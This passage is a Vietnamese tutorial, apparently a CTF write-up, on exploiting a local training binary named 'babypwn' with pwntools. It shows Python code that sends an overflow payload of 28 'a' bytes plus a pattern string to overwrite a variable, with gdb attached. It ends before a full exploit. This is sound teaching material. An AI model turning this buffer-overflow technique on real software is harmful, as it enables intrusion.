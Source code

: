 Mình khuyến khích chia màn hình làm 2 như hình trên để có thể dễ dàng thao tác giữa terminal và trình viết code  

Những dòng code đầu tiên sẽ là:  

```py
#Thêm import toàn bộ framework pwntools
from pwn import *
```
Code phần mở file binary:

```py
#Mở file binary
elf = ELF("./babypwn")
p = elf.process()

#Nhận thông tin từ file binary và in ra màn hình
print(p.recv())
```

`Ctr + S` để save lại đoạn script trên rồi sang terminal gõ `python3 exploit.py` để chạy đoạn script  

![image](https://user-images.githubusercontent.com/74854445/132886937-d0b5fe52-8e34-4867-8a85-ca22a30908b1.png)

Do để `recv()` sẽ hơi khó nhìn nên mình sẽ đổi qua `recvuntill("\n")`  

Nghĩa là chỉ nhận thông tin tới ký rự `\n` rồi in ra  

Theo như thông tin nhận được từ lần chạy script trước thì có vẻ là có 8 dòng tất cả nên mình sẽ ghi 8 lần để nó in hết các dòng ra  

> Ai thích thì code thêm dòng for cho script ngắn bớt cũng được nhen =)))  

![image](https://user-images.githubusercontent.com/74854445/132887604-433f57aa-6500-437f-9d91-ac02e51f250c.png)

Đầu tiên mình sẽ viết payload để làm thay đổi giá trị biến `v5`  

Payload sẽ gồm 28 ký tự "a" cho mảng `v4[28]` và chuỗi "AAAABBBBCCCCDDDDEEEEFFFF"  

Do mình vẫn chưa biết chính xác biến v5 nằm ở đâu nên mình dùng chuỗi "AAAABBBBCCCCDDDDEEEEFFFF" để thăm dò  

Đoạn code như sau:  

```py
#Payload mình ghi dưới dạng mảng và ghi theo kiểu xuống dòng cho dễ nhìn  
#Vì cái mình muốn gửi tới chương trình là raw byte nên mình sẽ thêm chữ b"" đằng trước các chuỗi, ký tự
payload = [
	b"a"*28,
	b"AAAABBBBCCCCDDDDEEEEFFFF"
]

#Sau đó tiến hành ghép tất cả lại thành 1 chuỗi  
payload = b"".join(payload)  

#Ghi thêm cái này để trước khi gửi payload, script sẽ mở gdb để ta debug chương trình
gdb.attach(p, """b *main""")

#Gửi payload đến cho chương trình
p.sendline(payload)

#Cái giúp ta có thể giữ chương trình lại, tương tác được với chương
#Nếu không có dòng này thì khi chạy hết script chương trình sẽ kết thúc luôn, không debug được
p.interactive()
``` 
